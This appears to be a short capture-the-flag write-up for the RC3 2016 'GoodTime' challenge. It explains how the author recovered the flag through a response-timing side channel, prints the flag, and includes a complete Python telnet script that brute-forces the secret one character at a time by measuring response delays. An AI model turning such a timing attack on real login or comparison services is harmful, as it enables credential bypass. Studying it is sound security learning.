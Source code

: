 # GoodTime (misc 150)
I try to send something to the server, and I feel weird when I send RC3. It seems that it takes a longer time to response. So I try to use the side channel to recover the flag. This attack requires a stable network connection because any internet problems may lead to the incorrect estimation of response time. I fail several times on my laptop with wifi, and then I move on to workstation. It works!  
The code to attack is quiet simple.  
It can be faster to stop when the response time is 0.2 more than previous, but it's still slow when the string is too long. It takes about ten seconds per query when we nearly solve it. So, we manually guess the possible char and get the flag.  
flag: RC3-2016-itz-alw4yz-a-g00d-t1m1ng-@tt@ck
```
import datetime
import telnetlib

SERVER = 'goodtime.ctf.rc3.club'
PORT = '5866'

def time_interval(conn, param):
    start = datetime.datetime.now()
    conn.write(param)
    ret = conn.read_until(b'\n').strip()
    end = datetime.datetime.now()
    interval = end - start
    return interval.total_seconds(), ret


def guess(x):
    conn = telnetlib.Telnet(SERVER, PORT)
    conn.read_until(b': ')
    t, ret = time_interval(conn, x + b'\n')
    print('\rguessing', x.decode('utf8'), t, end='')
    return t, ret
def sidechannel_attack():
    plain_text = b''
    halt = False
    while not halt:
        hit = max([(guess(plain_text + bytes([x])), x) for x in range(33, 128)], key=lambda x: x[0][0])
        print('')
        halt = (hit[0][1] != b'Nope')
        plain_text += bytes([hit[1]])
        print(plain_text.decode('utf8'), hit[0][0])

sidechannel_attack()
```
